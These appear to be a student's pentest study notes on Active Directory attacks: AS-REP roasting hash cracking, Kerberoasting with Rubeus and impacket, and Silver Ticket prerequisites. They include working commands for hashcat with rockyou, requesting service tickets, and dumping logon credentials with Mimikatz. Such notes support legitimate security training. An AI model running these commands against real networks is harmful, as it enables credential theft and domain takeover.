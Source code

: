 grab the hash and hashcat

sudo hashcat -m 18200 hashes.asreproast2 /usr/share/wordlists/rockyou.txt -r /usr/share/hashcat/rules/best64.rule --force
best64.rule for this


Kerberoasting

when user wants access to Service Principle Name:
client requests service ticket, DC generates the service ticket
service ticket decrypted and validated by app server

when requesting service ticket from domain controller, no check is performed

checks are performed as second step only when connecting to service

if we known SPN to target, we canrequest service ticket from dc

service ticket is encrypted using SPN password hash
we can decrypt with guessing or brute force -> crack cleartext password of the account

it's done with Rubeus

.\Rubeus.exe kerberoast /outfile:<file to store the TGS-REP>

hashcat -m 13100

using impacket-GetUserSPNs we perform kerberoasting from Linux (when rdp is blocked)
sudo impacket-GetUserSPNs -request -dc-ip <domain controller ip> <domain>/<username>

this targets high priv service account with weak passwords

if SPN runs in computer account, managed service account or group-managed service account, password is randomly generated, complex and 120 char long


Silver Tickets

user and group permissions are ont verified by app in most env on the service ticket

Privileged Account Certificate validation: optional verification process between SPN and Domain Controller, but service applications rarely perform PAC validation

need to collect:
1. SPN password hash (for the service account)
2. Domain SID
3. Target SPN

iwr -UseDefaultCredentials http://<service>
for example:
iwr -UseDefaultCredentials http://web04
use to check if current user has access to resource

to show all content:
(iwr -UseDefaultCredentials http://web04).Content

Mimikatz for the SPN password hash

privilege::debug
sekurlsa::logonpasswords
